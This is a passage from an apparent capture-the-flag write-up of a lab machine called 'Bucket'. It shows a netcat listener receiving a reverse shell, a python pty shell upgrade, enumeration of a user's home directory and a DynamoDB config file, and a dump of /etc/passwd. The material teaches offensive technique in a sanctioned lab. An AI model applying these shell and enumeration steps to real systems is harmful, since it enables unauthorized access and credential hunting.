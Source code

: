 We will need to run `nc` to listen for access while running this script (see our Passage writeup) and quit this script when we have a foothold.

Now we have a foothold, and we run the same python script we did last time to get a better shell:
```
$ nc -nlvp 1234                                                                                            1 ⨯
listening on [any] 1234 ...
connect to [10.10.14.239] from (UNKNOWN) [10.10.10.212] 44336
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty; pty.spawn("/bin/bash")'           
www-data@bucket:/var/www/html$ 
```

Now we just play around, trying to find anything.  In Passage, they had user data, but we already have that!  So we just have a look at what we can find.

We find in the `/home` directory a user called `roy`.  They have a `user.txt` file: that looks like a user flag!  So we know our goal at this minute is to get access to Roy's account, as the `user.txt` file currently isn't accessible with our present permissions.

We also see in Roy's home directory, a `project` folder.  In this folder is the following:
```
www-data@bucket:/var/www/html$ ls /home/roy/project
ls /home/roy/project
composer.json  composer.lock  db.php  vendor
www-data@bucket:/var/www/html$ ls /home/roy/project/db.php
ls /home/roy/project/db.php
/home/roy/project/db.php
www-data@bucket:/var/www/html$ cat /home/roy/project/db.php
cat /home/roy/project/db.php
<?php
require 'vendor/autoload.php';
date_default_timezone_set('America/New_York');
use Aws\DynamoDb\DynamoDbClient;
use Aws\DynamoDb\Exception\DynamoDbException;

$client = new Aws\Sdk([
    'profile' => 'default',
    'region'  => 'us-east-1',
    'version' => 'latest',
    'endpoint' => 'http://localhost:4566'
]);

$dynamodb = $client->createDynamoDb();

//todo
```

This `endpoint` variable has the same port number that I had when I was redirected, before I put a trailing slash after `shell`!  Just something to note.  I feel as though we need to exploit this directory&mdash;probably in the Web Shell&mdash;to get some kind of access... I am not sure yet.

Of course, Roy's password is encrypted:
```
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
roy:x:1000:1000:,,,:/home/roy:/bin/bash
```
